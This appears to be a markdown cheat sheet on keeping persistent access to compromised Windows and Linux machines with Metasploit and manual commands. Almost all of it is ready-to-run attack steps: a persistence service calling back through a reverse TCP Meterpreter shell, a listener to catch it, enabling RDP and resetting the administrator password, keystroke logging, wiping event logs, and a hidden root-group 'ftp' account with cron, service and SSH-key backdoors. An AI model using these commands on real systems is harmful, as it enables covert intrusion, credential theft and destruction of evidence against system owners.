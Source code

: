 # Establishing Persistence With Metasploit

## Establishing Persistence With Metasploit

## Windows Persistence

### Meterpreter

```bash
use exploit/windows/local/persistence_service
set SESSION 1
run
#By default persistence, the local exploit module uses the following payload and local port for reverse connection.
#Payload: windows/meterpreter/reverse_tcp
#LHOST: Attack IP Address.
#LPORT: 4444
```

**After successfully maintained access. Start another msfconsole and run multi handler to re-gain access.**

```bash
msfconsole -q
use exploit/multi/handler
set LHOST 10.10.1.2
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 4444
exploit
```

**Switch back to the active meterpreter session and reboot the machine.**

```bash
sessions -i 1
reboot
```

**Also, the backdoor is running as a service. Even if the session gets killed we would again gain it by re-running the Metasploit multi-handler. In this case, we exit the session and run the handler to gain the session again.**

```bash
exit
exploit
```

### Enabling RDP

```bash
use post/windows/manage/enable_rdp
set SESSION 1
run
```

#### Interact with the meterpreter shell and change the administrator password.

```bash
sessions -i 1
shell
net user administrator hacker_123321
```

#### Connect to the RDP service using xfreerdp utility and administrator account.

```bash
xfreerdp /u:administrator /p:hacker_123321 /v:10.0.0.68
```

### Windows Keylogging

```bash
migrate -N explorer.exe
keyscan_start
keyscan_dump
```

### Clear Windows Event Logs

```bash
clearev
```

## Linux Persistence

### Manual

```bash
#create user account with services name
useradd -m ftp -s /bin/bash -d /opt
passwd ftp
usermod -aG root ftp
usermod -u 7 ftp
usermod -g 7 ftp
groups ftp
```

### Metasploit Module

```bash
post/linux/manage/cron_persistence
exploit/linux/local/service_persistence
#make sure the session is meterpreter shell or better
post/linux/manage/sshkey_persistence
set CREATESSHFOLDER true
loot
chmod 0400 $file
ssh -i ssh_key root@192.182.80.3
```

